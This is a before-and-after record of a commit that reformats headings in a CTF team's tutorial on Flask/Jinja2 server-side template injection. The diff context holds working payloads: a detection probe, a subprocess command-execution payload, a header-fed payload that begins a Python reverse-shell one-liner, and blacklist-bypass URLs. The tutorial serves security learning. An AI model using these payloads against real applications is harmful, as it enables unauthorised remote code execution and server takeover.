

Before and after one commit to PequalsNP-team/pequalsnp-team.github.io, a Jekyll site: the page built from _posts/2018-09-03-flask-jinja2-ssti.md, in a window 1280 px wide and 900 px high, scrolled down 446 px. Shown: the whole window, without its empty margins (208-1061 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/_posts/2018-09-03-flask-jinja2-ssti.md
+++ b/_posts/2018-09-03-flask-jinja2-ssti.md
@@ -14,7 +14,7 @@ While SSTI in Flask are nothing new, we recently stumbled upon several articles
 As everything in this field, explore the docs of [Jinja](http://jinja.pocoo.org/docs/2.10/), [Flask](http://flask.pocoo.org/docs/1.0/api/) & Python and learn them by heart. Assuming this, I'm not going to explore in detail how does Flask/Jinja work, neither python internals.
 
 ### Reconnaissance
-You can try to probe `{{7*'7'}}` to see if the target is vulnerable. It would result in 49 in Twig, 7777777 in Jinja2, and neither if no template language is in use. This step is sometimes as trivial as submitting invalid syntax, as template engines may identify themselves in the resulting error messages. Note that there are other methods to identify more template engines. [Tplmap](https://github.com/epinna/tplmap/) or its [Burp Suite Plugin](https://github.com/epinna/tplmap/blob/master/burp_extension/README.md) will do the trick. This guide will specifically focus on Jinja2.
+You can try to probe {% raw %}`{{7*'7'}}`{% endraw %} to see if the target is vulnerable. It would result in `49` in Twig, `7777777` in Jinja2, and neither if no template language is in use. This step is sometimes as trivial as submitting invalid syntax, as template engines may identify themselves in the resulting error messages. Note that there are other methods to identify more template engines. [Tplmap](https://github.com/epinna/tplmap/) or its [Burp Suite Plugin](https://github.com/epinna/tplmap/blob/master/burp_extension/README.md) will do the trick. This guide will specifically focus on Jinja2.
 
 ### Basics
 In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more.
@@ -37,7 +37,7 @@ The following global variables are available within Jinja2 templates by default:
 
 If you want to explore in major details their globals, here are the links to the API docs: [Flask](http://flask.pocoo.org/docs/1.0/templating/#standard-context) and [Jinja](http://jinja.pocoo.org/docs/dev/templates/#builtin-globals).
 
-#### Introspection
+### Introspection
 You may conduct introspection with the `locals` object using `dir` and `help` to see everything that is available to the template context. You can also use introspection to reach every other application variable.  This [script]({{site.bloburl}}/assets/search.py) written by the [DoubleSigma](https://ctftime.org/writeup/10851) team will traverse over child attributes of request recursively.
 For example, if you need to reach the blacklisted `config` var you may access it anyway via:
 {% raw %}
@@ -73,14 +73,14 @@ This injection will do the trick:
 Mind that index numbers may vary (i.e. [4],[40]) according to the environment.
 
 ### Remote code execution
-##### First method
+#### First method
 By using the `subprocess` class you may issue arbitrary commands. This may be version-dependent:
 {% raw %}
 ```
 {{config.items()[4][1].__class__.__mro__[2].__subclasses__()[229]([\"touch /tmp/test\"], shell=True) }}
 ```
 {% endraw %}
-##### Second Method
+#### Second Method
 Luckily, the config object comes with a function `from_pyfile()` which reads, compiles and then executes a python file. We now write arbitrary payloads by passing `request.headers['X-Payload']` to the `write` function and sending the `X-Payload` header:
 {% raw %}
 ```
@@ -100,13 +100,13 @@ X-Payload: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOC
 ### Filters bypass
 Generally, if there is a blacklist you can use `request.args.param` to retrieve the value of a new param passed with the querystring. Likewise, you may trim parts of the URL using `request.url[n:]` (e.g.  `{{request[request.url[-6:]]}}&a=config` ).
 I'll report some examples below:
-##### Bypass the filtering on `__`:
+#### Bypass the filtering on `__`:
 {% raw %}
 ```
 http://localhost:5000/?exploit={{request[request.args.param]}}&param=__class__
 ```
 {% endraw %}
-#####  Bypass the filtering on `.` or `[]`:
+####  Bypass the filtering on `.` or `[]`:
 Using [Jinja2 filters](http://jinja.pocoo.org/docs/2.10/templates/#list-of-builtin-filters) like `|attr()`:
 {% raw %}
 ```
@@ -115,7 +115,7 @@ http://localhost:5000/?exploit={{request|attr(request.args.param)}}&param=__clas
 {% endraw %}
 Remember that you can always use the `__getitem__` to achieve the same, getting an item by key or index.
 
-##### Generic blacklist evasion
+#### Generic blacklist evasion
 - Using the `|join` filter will concatenate a list of strings. Also, multiplication of a string with a number 'n' duplicates it 'n' times. You may use both tricks to get bypass.
 - You can also use the `.getlist()` function to simplify the building of the injection. The function returns a list of all parameters with a given name. In our case we define the name using the l parameter and the content of the list with several a parameters.
 {% raw %}
````
